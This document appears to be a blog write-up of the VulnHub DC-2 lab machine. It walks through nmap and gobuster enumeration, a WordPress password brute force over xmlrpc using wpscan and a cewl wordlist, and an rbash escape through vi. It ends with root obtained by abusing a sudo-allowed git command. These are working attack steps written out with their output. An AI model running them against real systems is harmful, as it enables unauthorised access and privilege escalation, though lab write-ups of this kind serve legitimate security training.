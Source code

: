 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/dc-2,311/)

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
nmap -Pn -p80,7744 -sV  192.168.239.194 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:31 EDT
Nmap scan report for dc-2 (192.168.239.194)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

## gobuster
Using `gobuster` to look for hidden files on the identified web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 10 -x php -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/08 03:59:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/xmlrpc.php           (Status: 405) [Size: 42]                  
/wp-login.php         (Status: 200) [Size: 2165]                
/readme.html          (Status: 200) [Size: 7413]                
/license.txt          (Status: 200) [Size: 19935]               
/wp-config.php        (Status: 200) [Size: 0]                   
/wp-trackback.php     (Status: 200) [Size: 135]                 
/wp-settings.php      (Status: 500) [Size: 0]                   
/wp-cron.php          (Status: 200) [Size: 0]                   
/wp-blog-header.php   (Status: 200) [Size: 0]                   
/wp-links-opml.php    (Status: 200) [Size: 215]                 
/wp-load.php          (Status: 200) [Size: 0]                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
                                                                                            
===============================================================
2022/05/08 04:01:42 Finished
===============================================================
```

> It seems that `wordpress` is installed on the web server. `wpscan` reveals that wordpress version `4.7.10` is used and outdated.
{: .prompt-info }

---

# exploitation
## wordpress
Looking for exploits against `wordpress 4.7.10`

```bash
searchsploit wordpress Core 4.7
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 4.7.0/4.7.1 - Content Injection                                                                                                | linux/webapps/41223.py
WordPress Core 4.7.0/4.7.1 - Content Injection (Ruby)                                                                                         | linux/webapps/41224.rb
WordPress Core < 4.7.1 - Username Enumeration                                                                                                 | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                          | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                              | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                       | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                       | php/dos/47800.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts` looks promising  
- `http://dc-2/?static=1&order=asc` reveals the 'secret' content  
  
> The site gives the hint that `cewl` might be a good idea. `cewl` generates custom wordlists it scrapes from the website you provide.
{: .prompt-info }

```bash
cewl -d 2 -w ourWordlist.txt "http://dc-2/?static=1&order=asc"
```

Then we are using `wpscan` to identify accounts on the `wordpress` site and perform a brute force attack with the generated wordlist.  
> We are using the `xmlrpc` endpoint here instead of the 'normal' login page, because in this way we can perform multiple login attemps with one xml-rpc call.
{: .prompt-info }

```bash
wpscan --url http://dc-2/ --password-attack xmlrpc -P /home/void/Documents/web200/playgrounds/dc2/ourWordlist.txt                                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.239.194]
[+] Started: Sun May  8 04:16:03 2022
...
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing 
[SUCCESS] - tom / parturient                                                                                                                                                    
Trying admin / Powered Time: 00:01:23 <=====================================================                                                > (780 / 1458) 53.49%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
...
```
Yay! we got two valid credentials for the `wordpress` instance.  
> Unfortunately both accounts cannot be used to upload a `plugin` or escalate to an `rce`.  
{: .prompt-danger }

## ssh
On port 7744 there is a `SSH` service
> logging in with `tom:parturient` works
{: .prompt-info }

```bash
ssh tom@dc-2 -p 7744                                                                                                                                                  
The authenticity of host '[dc-2]:7744 ([192.168.239.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

> `rbash` is in place and the program `cat` cannot be found. `rbash` is a restricted shell which is used to jail a user, so he cannot execute certain commands and act as a normal user.
{: .prompt-danger }

## escaping rbash
```bash
tom@DC-2: vi
:set shell=/bin/bash
:shell
tom@DC-2:~$ cat local.txt
bash: cat: command not found
```
Yay! We escaped `rbash` but cat is still not available.

## cat alternative to get the first flag
```bash
tom@DC-2:~$ less local.txt
9******************************c
```

## privilege escalation
Try to identify if the user `tom` is able to execute commands as a super user.

```bash
echo $PATH
/home/tom/usr/bin
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:/var/www/html$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```

As `tom` is not allowed to do so, we are switching to the other user we know and check if this one is able to perform commands as a super user.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Checking [gtfobins](https://gtfobins.github.io/) to identify how we can exploit `git` to gain root access

```
sudo git -p help config
...
!/bin/sh
# cd /root
# ls
final-flag.txt  proof.txt
# less proof.txt
6******************************7
```
  
Pwned! <@:-)
